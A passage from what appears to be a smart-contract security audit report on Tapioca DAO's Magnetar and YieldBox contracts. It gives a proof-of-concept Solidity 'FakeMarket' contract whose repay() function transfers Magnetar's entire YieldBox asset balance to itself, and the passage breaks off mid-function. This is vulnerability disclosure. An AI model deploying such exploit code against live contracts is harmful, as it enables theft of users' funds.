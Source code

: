 2. Let's create the `FakeMarket` contract, create it under the [`tapioca-periph-audit/contract/`](https://github.com/Tapioca-DAO/tapioca-periph-audit/tree/023751a4e987cf7c203ab25d3abba58f7344f213/contracts) folder
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// import "@boringcrypto/boring-solidity/contracts/libraries/BoringRebase.sol";

//YIELDBOX
import "tapioca-sdk/dist/contracts/YieldBox/contracts/YieldBox.sol";

import "./interfaces/IYieldBoxBase.sol";
import "./interfaces/IMarket.sol";

contract FakeMarket {
  // using RebaseLibrary for Rebase;

  IMarket realMarket;

  IYieldBoxBase public yieldBox;
  
  /// @notice collateral token address
  address public collateral;
  /// @notice collateral token YieldBox id
  uint256 public collateralId;
  /// @notice asset token address
  address public asset;
  /// @notice asset token YieldBox id
  uint256 public assetId;

  address magnetarContract;
  
  function setMarket(address _realMarket) external {
    realMarket = IMarket(_realMarket);

    collateral = realMarket.collateral();
    collateralId = realMarket.collateralId();
    asset = realMarket.asset();
    assetId = realMarket.assetId();
    yieldBox = IYieldBoxBase(realMarket.yieldBox());
  }

  function setMagnetar(address _magnetar) external {
    magnetarContract = _magnetar;
  }

  //@audit => This is the function that will be called by the Magnetar contract
  //@audit => This contract will be granted all permission over the Mangetar contract in the YieldBox, which will allow it to transfer all that Magnetar owns to any address
  function repay(
    address from,
    address to,
    bool skim,
    uint256 part
  ) public returns (uint256 amount) {
    // (amount) = getAmountForBorrowPart(part);

    // uint256 share = yieldBox.toShare(assetId, amount, true);
    // yieldBox.transfer(from, address(this), _assetId, share);

    uint magnetarAssetBalance = yieldBox.balanceOf(magnetarContract,assetId);
    yieldBox.transfer(magnetarContract, address(this), assetId, magnetarAssetBalance);

```